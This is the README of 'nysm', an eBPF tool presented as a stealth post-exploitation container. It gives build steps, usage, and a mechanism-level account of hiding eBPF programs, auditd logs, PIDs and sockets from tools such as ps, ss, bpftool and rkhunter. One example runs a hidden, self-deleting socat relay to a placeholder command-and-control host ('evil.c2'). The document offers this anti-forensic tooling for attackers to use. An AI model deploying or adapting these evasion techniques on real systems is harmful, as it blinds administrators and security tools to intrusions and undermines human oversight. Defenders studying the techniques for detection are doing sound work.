

<h1 align="center">nysm</h1>

<p align="center">
    
</p>

<p align="center">
    A stealth post-exploitation container.
</p>

## Table of Content

- [1. Introduction](#introduction)
- [2. Installation](#installation)
    - [2.1 Requirements](#requirements)
    - [2.2 Linux headers](#linux-headers)
    - [2.3 Build](#build)
- [3. Usage](#usage)
    - [3.1 Examples](#examples)
- [4. How it works](#how-it-works)
    - [4.1 In general](#in-general)
    - [4.2 Hide eBPF objects](#hide-ebpf-objects)
    - [4.3 Hide Auditd logs](#hide-auditd-logs)
    - [4.4 Hide PIDs](#hide-pids)
    - [4.5 Hide sockets](#hide-sockets)
- [5. Limitations](#limitations)

## Introduction

With the raise in popularity of offensive tools based on eBPF, going from credential stealers to rootkits hiding their own PID, a question came to our mind: *Would it be possible to make eBPF invisible in its own eyes?* From there, we created nysm, an eBPF stealth container meant to make offensive tools fly under the radar of System Administrators, not only by hiding eBPF, but much more:

- bpftool
- bpflist-bpfcc
- ps
- top
- sockstat
- ss
- rkhunter
- chkrootkit
- lsof
- auditd
- *etc...*

All these tools go blind to what goes through nysm. It hides:

- New eBPF programs ⚙️
- New eBPF maps 🗺️
- New eBPF links 🔗
- New Auditd generated logs 📰
- New PIDs 🪪
- New sockets 🔌

> **Warning**
> This tool is a simple demonstration of eBPF capabilities as such. It is not meant to be exhaustive. Nevertheless, pull requests are more than welcome.

## Installation

### Requirements

```bash
sudo apt install git make pkg-config libelf-dev libzstd-dev clang llvm bpftool -y
```

### Linux headers

```bash
cd ./nysm/src/
bpftool btf dump file /sys/kernel/btf/vmlinux format c > vmlinux.h
```

### Build

```bash
cd ./nysm/src/
make
```

## Usage

nysm is a simple program to run before the intended command:

```
Usage: nysm [OPTION...] COMMAND
Stealth eBPF container.

  -d, --detach               Run COMMAND in background
  -r, --rm                   Self destruct after execution
  -v, --verbose              Produce verbose output
  -h, --help                 Display this help
      --usage                Display a short usage message
```

### Examples

Run a hidden `bash`:

```bash
./nysm bash
```

Run a hidden `ssh` and remove `./nysm`:

```
./nysm -r ssh user@domain
```

Run a hidden `socat` as a daemon and remove `./nysm`:

```bash
./nysm -dr socat TCP4-LISTEN:80 TCP4:evil.c2:443
```

## How it works

### In general

As eBPF *cannot* overwrite returned values or kernel addresses, our goal is to find the lowest level call interacting with a userspace address to overwrite its value and hide the desired objects.

To differentiate nysm events from the others, everything runs inside a seperated PID namespace.

### Hide eBPF objects

`bpftool` has some features nysm wants to evade: `bpftool prog list`, `bpftool map list` and `bpftool link list`.

As any eBPF program, `bpftool` uses the `bpf()` system call, and more specifically with the `BPF_PROG_GET_NEXT_ID`, `BPF_MAP_GET_NEXT_ID` and `BPF_LINK_GET_NEXT_ID` commands. The result of these calls is stored in the userspace address pointed by the `attr` argument.

To overwrite `uattr`, a tracepoint is set on the `bpf()` entry to store the pointed address in a map. Once done, it waits for the `bpf()` exit tracepoint. When `bpf()` exists, nysm can read and write through the [bpf_attr](https://elixir.bootlin.com/linux/v6.4/source/include/uapi/linux/bpf.h#L1320) structure. After each `BPF_*_GET_NEXT_ID`, `bpf_attr.start_id` is replaced by `bpf_attr.next_id`.

In order to hide specific IDs, it checks `bpf_attr.next_id` and replaces it with the next ID that was not created in nysm.

Program, map, and link IDs are collected from [security_bpf_prog()](https://elixir.bootlin.com/linux/v6.4/source/security/security.c#L5092), [security_bpf_map()](https://elixir.bootlin.com/linux/v6.4/source/security/security.c#L5077), and [bpf_link_prime()](https://elixir.bootlin.com/linux/v6.4/source/kernel/bpf/syscall.c#L2867).

### Hide Auditd logs

Auditd receives its logs from `recvfrom()` which stores its messages in a buffer.

If the message received was generated by a nysm process through [audit_log_end()](https://elixir.bootlin.com/linux/latest/source/kernel/audit.c#L2399), it replaces the message length in its `nlmsghdr` header by 0.

### Hide PIDS

Hiding PIDs with eBPF is nothing new. nysm hides new `alloc_pid()` PIDs from `getdents64()` in `/proc` by changing the length of the previous record.

As `getdents64()` requires to loop through all its files, the eBPF instructions limit is easily reached. Therefore, nysm uses [tail calls](https://docs.cilium.io/en/stable/bpf/architecture/#tail-calls) before reaching it.

### Hide sockets

Hiding sockets is a big word. In fact, opened sockets are already hidden from many tools as they cannot find the process in `/proc`. Nevertheless, `ss` uses `socket()` with the `NETLINK_SOCK_DIAG` flag which *returns* all the currently opened sockets. After that, `ss` receives the result through `recvmsg()` in a message buffer and the returned value is the length of all these messages combined.

Here, the same method as for the PIDs is applied: the length of the previous message is modified to hide nysm sockets.

These are collected from the `connect()` and `bind()` calls.

## Limitations

Even with the best effort, nysm still has some limitations.

- Every tool that does not close their file descriptors will spot nysm processes created while they are open. For example, if `./nysm bash` is running before `top`, the processes will not show up. But, if another process is created from that `bash` instance while `top` is still running, the new process will be spotted. The same problem occurs with sockets and tools like nethogs.

- Kernel logs: `dmesg` and `/var/log/kern.log`, the message `nysm[<PID>] is installing a program with bpf_probe_write_user helper that may corrupt user memory!` will pop several times because of the eBPF verifier on nysm run.

- Many traces written into files are left as hooking `read()` and `write()` would be too heavy (but still possible). For example `/proc/net/tcp` or `/sys/kernel/debug/tracing/enabled_functions`.

- Hiding `ss` `recvmsg` can be challenging as a new socket can pop at the beginning of the buffer, and nysm cannot hide it with a preceding record *(this does not apply to PIDs)*. A quick fix could be to switch place between the first one and the next legitimate socket, but what if a socket is in the buffer by itself? Therefore, nysm modifies the first socket information with hardcoded values.

- Running `bpf()` with any kind of `BPF_*_GET_NEXT_ID` flag from a nysm child process should be avoided as it would hide every non-nysm eBPF objects.

Of course, many of these limitations must have their own solutions. Again, pull requests are more than welcome.
